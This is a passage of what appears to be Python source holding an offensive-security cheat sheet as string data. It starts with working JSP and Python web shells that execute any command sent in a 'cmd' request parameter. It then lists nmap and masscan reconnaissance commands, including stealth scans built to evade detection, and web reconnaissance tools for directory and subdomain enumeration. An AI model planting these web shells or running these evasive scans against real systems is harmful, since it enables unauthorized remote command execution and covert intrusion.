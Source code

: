 JSP WEB SHELL:
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>

PYTHON WEB SHELL:
import os
os.system(request.args.get('cmd'))
""",
            },
            "reconnaissance": {
                "network_scanning": """
NETWORK RECONNAISSANCE:

HOST DISCOVERY:
- nmap -sn 192.168.1.0/24 (ping sweep)
- fping -a -g 192.168.1.0/24
- masscan -p80,443 192.168.1.0/24

PORT SCANNING:
- nmap -sS target (SYN scan)
- nmap -sT target (TCP connect)
- nmap -sU target (UDP scan)
- nmap -p- target (all ports)

SERVICE ENUMERATION:
- nmap -sV -p 1-65535 target
- nmap -sC target (default scripts)
- nmap --script vuln target

STEALTH TECHNIQUES:
- nmap -f target (fragmented packets)
- nmap -D RND:10 target (decoy scan)
- nmap --source-port 53 target
- Slow scan: nmap -T1 target
""",
                "web_reconnaissance": """
WEB APPLICATION RECONNAISSANCE:

INFORMATION GATHERING:
- whatweb target.com
- wafw00f target.com
- dirb http://target.com
- gobuster dir -u http://target.com -w /usr/share/wordlists/dirb/common.txt

SUBDOMAIN ENUMERATION:
- sublist3r -d target.com
- amass enum -d target.com
- dnsrecon -d target.com
- fierce -dns target.com

TECHNOLOGY FINGERPRINTING:
- wappalyzer browser extension
- builtwith.com
- netcraft.com
- shodan.io searches
